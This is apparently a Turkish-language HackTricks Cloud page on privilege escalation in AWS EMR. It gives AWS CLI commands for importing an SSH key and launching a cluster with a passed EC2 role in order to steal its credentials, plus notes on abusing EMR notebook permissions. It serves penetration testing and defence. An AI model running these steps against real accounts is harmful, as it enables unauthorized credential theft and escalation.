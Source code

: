 # AWS - EMR Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EMR

Daha fazla **EMR hakkında bilgi** için:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Bu izinlere sahip bir saldırgan, **EC2 rollerini ekleyerek yeni bir EMR kümesi çalıştırabilir** ve kimlik bilgilerini çalmaya çalışabilir.\
Bunu yapmak için, **hesaba ithal edilmiş bazı ssh özel anahtarlarını bilmeniz** veya bir tane ithal etmeniz ve **ana düğümde port 22'yi açabilmeniz** gerektiğini unutmayın (bunu `--ec2-attributes` içindeki `EmrManagedMasterSecurityGroup` ve/veya `ServiceAccessSecurityGroup` öznitelikleri ile yapabilirsiniz).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Not edin ki bir **EMR rolü** `--service-role` içinde belirtilirken, bir **ec2 rolü** `--ec2-attributes` içinde `InstanceProfile` olarak belirtilir. Ancak, bu teknik yalnızca EC2 rolü kimlik bilgilerini çalmaya izin verir (çünkü ssh üzerinden bağlanacaksınız) ama EMR IAM Rolü'nü çalamaz.

**Olası Etki:** Belirtilen EC2 hizmet rolüne privesc.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Bu izinlerle bir saldırgan **AWS konsoluna** gidebilir, bir Notebook oluşturabilir ve IAM Rolünü çalmak için erişebilir.

{% hint style="danger" %}
Notebook örneğine bir IAM rolü eklesem de, testlerimde AWS yönetilen kimlik bilgilerini çalmayı başardığımı fark ettim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Olası Etki:** AWS yönetilen rolüne privesc arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Bu izinle bir saldırgan **Jupyter Notebook'a erişebilir ve ona bağlı IAM rolünü çalabilir**.\
Notebook'un URL'si `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Notebook örneğine bir IAM rolü eklesem de, testlerimde AWS yönetilen kimlik bilgilerini çalmayı başardığımı fark ettim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Olası Etki:** AWS yönetilen rolüne privesc arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
